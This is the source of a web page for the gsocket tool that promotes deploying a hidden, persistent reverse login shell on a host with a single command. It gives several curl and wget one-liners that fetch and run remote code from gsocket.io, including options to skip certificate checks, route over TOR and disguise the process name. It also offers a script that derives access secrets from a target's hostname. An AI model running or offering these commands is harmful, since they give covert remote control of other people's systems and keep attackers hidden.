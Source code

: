 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs" id="curl-install" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-install" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs" id="wget-install" class="tab-switch">
            <label for="wget-install" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

Use either one of these two commands to _uninstall_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs" id="curl-uninstall" class="tab-switch" checked>
            <label for="curl-uninstall" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs" id="wget-uninstall" class="tab-switch">
            <label for="wget-uninstall" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

Use either command to _access_ the remote host:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs" id="curl-access" class="tab-switch" checked>
            <label for="curl-access" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs" id="wget-access" class="tab-switch">
            <label for="wget-access" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Ignore SSL / Certificate warnings:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs" id="curl-ignore" class="tab-switch" checked>
            <label for="curl-ignore" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs" id="wget-ignore" class="tab-switch">
            <label for="wget-ignore" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

Deploy with a predefined secret:

```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:

```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:

```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget --no-verbose -O- gsocket.io/x)")
```
  
Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages and using good old plain HTTP:

```
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
```

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

```shell
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
```

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

```sh
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}
# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
```

```sh
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>
